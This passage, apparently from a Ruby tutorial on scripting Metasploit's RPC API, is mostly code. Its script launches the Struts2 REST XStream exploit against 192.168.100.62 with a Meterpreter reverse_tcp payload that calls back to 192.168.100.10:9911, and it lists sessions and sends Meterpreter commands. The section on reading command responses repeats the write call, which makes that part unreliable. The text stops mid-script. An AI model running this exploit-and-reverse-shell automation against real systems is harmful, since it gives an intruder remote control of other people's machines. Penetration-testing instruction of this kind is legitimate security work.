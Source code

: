 It takes the session id, we know it from the previous request.

```ruby
rpc.call('job.info', 7)
```

#### Session : List Available Sessions

```ruby
rpc.call('session.list')
```

#### Session : Executing Meterpreter commands

```ruby
rpc.call('session.meterpreter_write', 10, "sysinfo")
```

#### Session : Reading Meterpreter command response

```ruby
rpc.call('session.meterpreter_write', 10, "sysinfo")
```

### Full Code

```ruby
#!/usr/bin/env ruby
# Author:
#   Sabri | @KINGSABRI
# Description:
#   How to use MSFRPC API
# Requirements:
#   gem install msfrpc-client
#
require 'msfrpc-client'

user = 'cool'
pass = 'looc'

opts = {
  host: '127.0.0.1',
  port: 55553,
  uri:  '/api/',
  ssl:  true
}
rpc = Msf::RPC::Client.new(opts)
rpc.login(user, pass)
rpc.call('core.version')
rpc.call('core.module_stats')
rpc.call('module.info', 'exploit', 'multi/http/struts2_rest_xstream')
rpc.call('module.options', 'exploit', 'multi/http/struts2_rest_xstream')
# Executes a module.
exp_opts = {
  'RHOST'     => '192.168.100.62',
  'RPORT'     => 80,
  'TARGETURI' => '/orders/3',
  'SSL'       => false,
  'SRVHOST'   => '0.0.0.0',
  'SRVPORT'   => 8081,
  'UserAgent' => 'Black Hat Ruby',
  'target'    => 4 # 'Linux (Dropper)'
}
pay_opts = {
  'PAYLOAD' => 'linux/x86/meterpreter/reverse_tcp',
  'LHOST'   => '192.168.100.10',
  'LPORT'   => 9911
```